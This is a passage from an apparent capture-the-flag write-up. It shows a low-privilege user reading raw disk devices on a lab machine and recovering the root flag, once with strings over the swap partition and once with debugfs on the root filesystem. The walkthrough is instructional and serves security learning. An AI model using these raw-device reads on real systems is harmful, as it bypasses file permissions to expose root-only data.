 ```

yossi@falafel:/dev/shm/.d$ blkid
/dev/sda1: UUID="ccba94d2-0b82-49ce-b25d-f1d3615345f0" TYPE="ext4" PARTUUID="01590ad6-01"
/dev/sda5: UUID="63f5a640-a3f7-4ea9-9dbd-c9a091ace20c" TYPE="swap" PARTUUID="01590ad6-05"

yossi@falafel:/dev/shm/.d$ swapon -s
Filename                                Type            Size    Used    Priority
/dev/sda5                               partition       1046524 147000  -1

yossi@falafel:/dev/shm/.d$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
# / was on /dev/sda1 during installation
UUID=ccba94d2-0b82-49ce-b25d-f1d3615345f0 /               ext4    errors=remount-ro 0       1
# swap was on /dev/sda5 during installation
UUID=63f5a640-a3f7-4ea9-9dbd-c9a091ace20c none            swap    sw              0       0

yossi@falafel:/dev/shm/.d$ mount | grep sda
/dev/sda1 on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)

```

### Get Flag - strings

These devices can be read with `dd` or `cat`. In swap, the flag is there in plaintext:

```

yossi@falafel:/dev/shm/.d$ cat /dev/sda5 | strings -a | grep "root.txt" | grep -e "[0-9a-f]\{32\}"
echo "23b79200..." > root.txt
printf "23b79200..." > root.txt
echo "23b79200..." > root.txt
echo "23b79200..." > root.txt
printf "23b79200..." > root.txt
echo "23b79200..." > root.txt

```

### Get Flag - debugfs

`debugfs` let’s you debug a file system if you can read the device:

```

yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  ls /root
debugfs:  cat /root/root.txt
23b79200...

```
